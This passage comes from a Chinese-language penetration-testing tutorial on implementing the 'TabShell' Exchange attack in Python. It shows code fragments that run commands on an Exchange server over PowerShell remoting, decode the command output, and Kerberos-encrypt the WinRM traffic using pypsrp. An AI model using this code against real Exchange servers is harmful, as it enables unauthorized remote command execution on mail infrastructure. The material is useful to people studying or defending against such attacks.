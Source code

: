 #### (8)执行命令并获得最终返回结果

发送数据的格式同(7)一致，执行的命令为： `$Out`，在返回数据中获得CommandId，并通过CommandId读取最终的命令执行结果，提取执行结果的示例代码：

```
doc = xml.dom.minidom.parseString(response_text)
elements = doc.getElementsByTagName("rsp:Stream")
if len(elements) == 0:
    print("[-] GetCommandoutput failed with no Stream return")
    sys.exit(0)

print("[+] Output: ")
for element_i in elements:
    data = element_i.firstChild.nodeValue
    rawdata = base64.b64decode(data).decode('ISO-8859-1')        
    try:                
        pattern_output = re.compile(r"<S>(.*?)</S>")
        output_data = pattern_output.findall(rawdata)       
        print(output_data[0])       
    except Exception as e:
        return
```

### 2.通过Powershell Session实现TabShell的Python实现

这里可以借鉴上一篇文章《渗透技巧——Exchange Powershell的Python实现》得出的经验：两者通信过程一致，只是通过Powershell Session实现TabShell的Python实现需要额外考虑通信数据的编码和解码

通信数据的编码和解码可参考上一篇文章《渗透技巧——Exchange Powershell的Python实现》中的0x03

数据的编码和解码示例代码如下：

```
from pypsrp.encryption import WinRMEncryption
from pypsrp._utils import get_hostname, to_string, to_unicode
headers = {
    'User-Agent': 'Mozilla/5.0 (Windows NT 6.3; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/81.0.4044.129 Safari/537.36',
    'Content-Type': 'multipart/encrypted;protocol="application/HTTP-Kerberos-session-encrypted";boundary="Encrypted Boundary"',
    'Accept-Encoding': 'identity'
}
print("[*] 1.Sending http request")
r = session.post(url, data=request_data, headers=headers, verify=False)
if r.status_code == 200:
    print("[+] Success")
else:
    print("[!]")
    print(r.status_code)
    print(r.text)
    sys.exit(0)
 
hostname = "exchange01.test.com"
protocol = WinRMEncryption.KERBEROS
encryption = WinRMEncryption(session.auth.contexts[hostname], protocol)
content_type, payload = encryption.wrap_message(request_data.encode('utf-8'))

print("[*] 2.Sending http request")

r = session.post(url, data=payload, headers=headers, verify=False)
if r.status_code == 200:
    print("[+] Response length: " + str(len(r.text)))
    boundary = re.search("boundary=[" '|\\"](.*)[' '|\\"]', r.headers["content-type"]).group(1)  # type: ignore[union-attr] # This should not happen
    response_content = encryption.unwrap_message(r.content, to_unicode(boundary))  # type: ignore[union-attr] # This should not happen
```